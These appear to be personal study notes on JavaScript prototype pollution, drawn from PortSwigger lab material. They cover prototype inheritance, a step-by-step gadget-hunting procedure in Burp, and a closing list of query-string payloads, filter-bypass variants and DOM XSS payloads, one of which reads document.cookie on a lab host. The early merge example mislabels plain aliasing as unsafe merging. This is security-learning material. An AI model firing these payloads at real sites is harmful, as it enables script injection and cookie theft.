 ### Prototype Pollution
  - https://portswigger.net/web-security/prototype-pollution/javascript-prototypes-and-inheritance
  - Objects in js is key value pair
  - ```
    const user =  {
    username: "wiener",
    userId: 01234,
    exampleMethod: function(){
        // do something
    }
}```
   - Every object is linked to another object, and that object is linked to another object, untill null.
   - Ex: in JS, String are autoassign `String.prototype`. This becomes helpful, because a lot of methods like `Trim()` are in that prototype so string object can use them directly.
   - JavaScript engine first tries to access this directly on the object itself. If the object doesn't have a matching property, the JavaScript engine looks for it on the object's prototype instead.
   - Although this doesn't have a formally standardized name, __proto__ is the de facto standard used by most browsers
   - We can modify prototypes ```String.prototype.removeWhitespace = function(){
    // remove leading and trailing whitespace
}```
  - https://portswigger.net/web-security/prototype-pollution
  -  Prototype pollution vulnerabilities typically arise when a JavaScript function recursively merges an object containing user-controllable properties into an existing object, without first sanitizing the keys.
  -  Due to the special meaning of `__proto__` in a JavaScript context, the merge operation may assign the nested properties to the object's prototype instead of the target object itself. As a result, the attacker can pollute the prototype with properties containing harmful values, which may subsequently be used by the application in a dangerous way. This can allow an attacker to inject a property with a key like __proto__, along with arbitrary nested properties.
```
b = {"foo":"bar"}
a = b


console.log("Before assigning to a look at b proto",b.__proto__)
a.__proto__={"hidden_foo":"hidden_bar"}
console.log("a has hidden proto",a.__proto__);
console.log("Due to unsafe merging b also has it",b.__proto__)

// OUTPUT
Before assigning to a look at b proto [Object: null prototype] {}
a has hidden proto { hidden_foo: 'hidden_bar' }
Due to unsafe merging b also has it { hidden_foo: 'hidden_bar' }

```
  -  Successful exploitation of prototype pollution requires the following key components:
    - A prototype pollution source - This is any input that enables you to poison prototype objects with arbitrary properties. Commonly, URL, JSON input, web messages
    - A sink - In other words, a JavaScript function or DOM element that enables arbitrary code execution.
    - An exploitable gadget - This is any property that is passed into a sink without proper filtering or sanitization.
 - Client Side:
   1. Try to inject an arbitrary property via the query string, URL fragment, and any JSON input. For example:
    ```vulnerable-website.com/?__proto__[foo]=bar```
   2. In your browser console, inspect Object.prototype to see if you have successfully polluted it with your arbitrary property:
   ```
   	Object.prototype.foo
	// "bar" indicates that you have successfully polluted the prototype
	// undefined indicates that the attack was not successful
   ```
   3. If the property was not added to the prototype, try using different techniques, such as switching to dot notation rather than bracket notation, or vice versa:
	```vulnerable-website.com/?__proto__.foo=bar```
   4. Repeat this process for each potential source.
   5. In BURP, we can use DOM invader https://portswigger.net/burp/documentation/desktop/tools/dom-invader/prototype-pollution#detecting-sources-for-prototype-pollution
   6. Now Find gadget
   7. Look through the source code and identify any properties that are used by the application or any libraries that it imports.
   8. In Burp, enable response interception (Proxy > Options > Intercept server responses) and intercept the response containing the JavaScript that you want to test.
   9. Add a debugger statement at the start of the script, then forward any remaining requests and responses.
   10. In Burp's browser, go to the page on which the target script is loaded. The debugger statement pauses execution of the script.
   11. While the script is still paused, switch to the console and enter the following command, replacing YOUR-PROPERTY with one of the properties that you think is a potential gadget:
   12. Object.defineProperty(Object.prototype, 'YOUR-PROPERTY', {
    get() {
        console.trace();
        return 'polluted';
    }
})
    13. The property is added to the global Object.prototype, and the browser will log a stack trace to the console whenever it is accessed.
    14. Press the button to continue execution of the script and monitor the console. If a stack trace appears, this confirms that the property was accessed somewhere within the application.
    15. Expand the stack trace and use the provided link to jump to the line of code where the property is being read.
    16. Using the browser's debugger controls, step through each phase of execution to see if the property is passed to a sink, such as innerHTML or eval().
    17. Repeat this process for any properties that you think are potential gadgets.
  - https://gowthams.gitbook.io/bughunter-handbook/list-of-vulnerabilities-bugs/prototype-pollution
  - DOM invador is the way to go, makes life much easier, note: sometimes extra chars like `1` is being appended like this`if(manager && manager.sequence){ manager.macro(ar2z0fxj6prototypepollutionsequencear2z0fxj1) }` so add `-` in the end to ignore the 1.

### Via the constructor
	- sometimes the `__proto__` accessor is blocked, we maybe able to use `constructor` property.
### quick check
https-//example.com/?__proto__[foo]=bar
https-//example.com/?__proto__.foo=bar
https-//example.com/?constructor.[prototype][foo]=bar
https-//example.com/?constructor.prototype.foo=bar
# Bypass sanitization
https-//example.com/?__pro__proto__to__[foo]=bar`

https-//example.com/?__pro__proto__to__.foo=bar

https-//example.com/?constconstructorructor[prototype][foo]=bar

https-//example.com/?constconstructorructor.prototype.foo=bar

https-//example.com/?constconstructorructor[protoprototypetype][foo]=bar

https-//example.com/?constconstructorructor.protoprototypetype.foo=bar


Check in browser
Object.prototype.foo
constructor.prototype.foo

// the expected output: "bar"

# DOM XSS
https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=data:,alert(1);

https-//example.com/?__proto__[source_url]=alert(1)-

source_url can be [transport_url]

# vulnerable 3rd party library
<script>
    location="https://0a1c00af03786a9a80204452004a00a7.web-security-academy.net/#__proto__[hitCallback]=alert%28document.cookie%29"
</script>
Here 0a1c00af03786a9a80204452004a00a7.web-security-academy.ne is vulnerable
